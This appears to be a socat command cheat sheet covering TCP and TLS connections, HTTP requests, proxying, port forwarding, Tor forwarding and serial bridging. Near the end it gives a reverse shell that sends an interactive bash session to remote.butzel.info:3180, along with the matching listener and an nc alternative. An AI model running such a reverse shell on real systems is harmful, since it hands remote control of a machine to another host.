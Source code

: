 ```yaml
---
tags: [networking]
---
```


# socat connect to http-server (port 80 on 'butzel.info')

socat TCP4:butzel.info:80 -

# connect to https-server (port 443 on 'butzel.info' with tls)

socat openssl:butzel.info:443 -

# tcp-listener (port 3180), output as hexdump (-x) and fork for new connetions

socat -x tcp-listen:3180,fork -

# practical examples:

# complete real working http-example:

# (sleep is necessary to prevent socat closing socket before data received)

(echo -e "GET / HTTP/1.1\r\nHost: butzel.info\r\n\r" && sleep 1) \
| socat tcp4:butzel.info:80 -

# http to httpS 'Proxy' (for an webserver without TLS-Support)

socat OPENSSL-LISTEN:443,reuseaddr,pf=ip4,fork,cert=server.pem,cafile=client.crt,verify=0 TCP4-CONNECT:127.0.0.1:80

# port forwarding (e.g. own port 3180 to port 22(ssh) on target

socat TCP4-LISTEN:3180,reuseaddr,fork TCP4:butzel.info:ssh

# TOR-forwarding (needs tor-daemon on port 9050 running)

socat tcp4-listen:8080,reuseaddr,fork socks4A:127.0.0.1:t0rhidd3ns3rvice.onion:80,socksport=9050

# network (port 8266) to serial bridge (/dev/ttyUSB0 baudrate: 115200)

socat TCP4-LISTEN:8266,fork,reuseaddr /dev/ttyUSB0,raw,crnl,b115200

# udp to tcp

socat -u udp-recvfrom:1234,fork tcp:localhost:4321

# reverse shell:

socat exec:'bash -i',pty,stderr tcp:remote.butzel.info:3180

# listener for above reverse shell (on remote.butzel.info):

socat file:`tty`,raw,echo=0 tcp-listen:3180

# or: nc -lp 3180

